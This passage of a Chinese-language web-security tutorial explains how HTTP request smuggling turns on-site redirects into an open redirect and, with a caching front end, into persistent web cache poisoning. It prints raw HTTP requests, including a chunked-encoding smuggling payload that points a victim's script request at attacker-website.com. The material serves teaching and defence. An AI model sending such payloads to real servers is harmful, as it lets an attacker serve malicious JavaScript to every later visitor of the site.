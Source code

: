 某些后端服务器会默认本地重定向，并将url 的`host`从请求头的`Host`放入重定向URL。

例如Apache和IIS 对不带斜杠的文件夹的请求，将会重定向到该文件夹+ “/“。例如：

```
GET /home HTTP/1.1
Host: normal-website.com

HTTP/1.1 301 Moved 
PermanentlyLocation: https://normal-website.com/home/

```

一般来说，该行为是没问题的。但是HRS可以利用它来开放重定向，将受害者重定向到其他域。例如：

```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 54
Transfer-Encoding: chunked

0

GET /home HTTP/1.1
Host: attacker-website.com
Foo: X

```

此时后端服务器处理下一个用户的请求时将变成：

```
GET /home HTTP/1.1
Host: attacker-website.com
Foo: XGET /scripts/include.js HTTP/1.1
Host: vulnerable-website.com

HTTP/1.1 301 Moved Permanently
Location: https://attacker-website.com/home/

```

此时受害者请求的一个JS，该文件是由页面导入的。此时攻击者可以通过在响应中返回恶意JS。

<a class="reference-link" name="2.6%20web%E7%BC%93%E5%AD%98%E6%8A%95%E6%AF%92"></a>**6 web缓存投毒**

基于2.5节开放重定向的基础上，如果前端服务器启用了内容缓存，那么后端服务器返回之后，前端服务器将缓存/static/include.js为攻击者的js。

这个影响是持久的，当其他用户请求此URL时，他们也将会重定向到attacker-website.com。

```
GET /static/include.js HTTP/1.1
Host: vulnerable-website.com

HTTP/1.1 301 Moved Permanently
Location: https://attacker-website.com/home/

```
